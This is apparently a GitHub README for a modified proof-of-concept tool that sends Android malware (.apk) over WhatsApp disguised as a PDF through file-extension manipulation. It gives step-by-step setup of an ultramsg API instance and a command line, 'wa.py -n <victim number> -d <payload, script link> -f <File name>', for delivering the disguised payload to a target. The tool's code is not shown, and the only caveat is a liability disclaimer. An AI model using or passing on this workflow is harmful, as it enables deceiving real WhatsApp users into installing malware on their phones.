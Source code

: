 # WhatsApp-extension-manipulation

This is a modified version of the original project by [0x6rss](https://github.com/0x6rss/WhatsApp-extension-manipulation-PoC), licensed under the MIT License.<br>

Android malware (.apk) can be spread through a fake PDF document by manipulating the file extension in the WhatsApp application. PoC is available in this repo


<source src=".resources/Wa_P-O-C.mp4" type="video/mp4">

### Step 1: First, create a free account at [ultramsg](https://user.ultramsg.com/signup.php). We will use this to manage the API

### Step 2: Click the "Add Instance" button and create a new instance. <br>
<img src=".resources/R001.jpg "/> <br>


### Step 3: Log in to your WhatsApp application using the QR code found under the instance information. <br>
<img src=".resources/R002.jpg "/> <br>

### Step 4: Configuration token and API URL
```sh
python3 wa.py -t <token> -u <api url>
```
#### Show this help message
```sh
python3 wa.py -h 
```
###  To manually input one by one, type wa.py and run.
```sh
python3 wa.py
```
```sh
python3 wa.py -n <victim number> -d <payload, script link> -f <File name you want display>
```
## Disclaimer

This software is provided "as is", without warranty of any kind, express or implied, including but not limited to the warranties of merchantability, fitness for a particular purpose, and noninfringement. In no event shall the authors or copyright holders be liable for any claim, damages, or other liability, whether in an action of contract, tort, or otherwise, arising from, out of, or in connection with the software or the use or other dealings in the software.


## License

This project continues to be licensed under the [MIT License](https://github.com/0x6rss/WhatsApp-extension-manipulation-PoC/blob/main/LICENSE).

Original copyright:
© 2024 0x6rss

Modifications:
© 2025 Recluse-X

